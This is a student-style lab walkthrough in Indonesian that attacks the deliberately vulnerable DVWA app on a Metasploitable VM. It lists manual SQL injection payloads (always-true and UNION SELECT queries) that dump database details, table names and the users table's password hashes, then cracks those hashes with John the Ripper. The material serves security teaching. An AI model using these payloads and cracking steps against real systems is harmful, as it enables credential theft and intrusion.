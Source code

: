 # DVWA | Lesson 6
## Konfigurasi

###{ Manual SQL injection, John the Ripper}

## penjelasan
kali ini kita akan mencoba mendapatkan username dan password yang ada di dalam suatu database

pada lesson 6, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.PNG)
![alt text](./metasploit.PNG)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- login ke dalam DVWA lewat firefox di backtrack

- setting DVWA security low
![alt text](./1.PNG)


# Mencoba SQL Injection Manual
1. injeksi basic
- masukkan `$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";`
- klik submit
- disini kita mendapatkan username admin
![alt text](./2.PNG)

2. always true scenario
- masukkan 
    `%' or '0'='0`
- klik submit
- hasil : 
![alt text](./3.PNG)

3. versi database
- masukkan 
    `%' or 0=0 union select null, version() #`
- klik submit

![alt text](./4.PNG)

4. menampilkan database user
- masukkan 
    `%' or 0=0 union select null, user() #`
- klik submit
![alt text](./5.PNG)

5. menampilkan nama database
- masukkan 
    `%' or 0=0 union select null, database() #`
- klik submit
![alt text](./6.PNG)

6. menampilkan semua tabel yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables #`
- klik submit
![alt text](./7.PNG)

7. menampilkan semua user yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
- klik submit
![alt text](./8.PNG)

8. menampilkan semua fields column yang ada pada tabel information_Schema
- masukkan 
    `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
- klik submit
![alt text](./9.PNG)

9. menampilkan semua isi content dari kolom yang ada pada information_schema
- masukkan
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
- klik submit
![alt text](./10.PNG)
- copy + paste semua user dan password yang ada
- paste di note 
- simpan dalam file .txt pada folder john
    -> pentest -> passwords -> john
![alt text](./11.PNG)


## Hasil
-  sekarang kita akan mencoba dekripsi hash password yang telah kita simpan pada note
- masuk ke folder /pentest/passwords/john
- masukkan command 
    ` ./john --format=raw-MD5 dvwa_password.txt`
![alt text](./12.PNG)

- username dan password berhasil didapatkan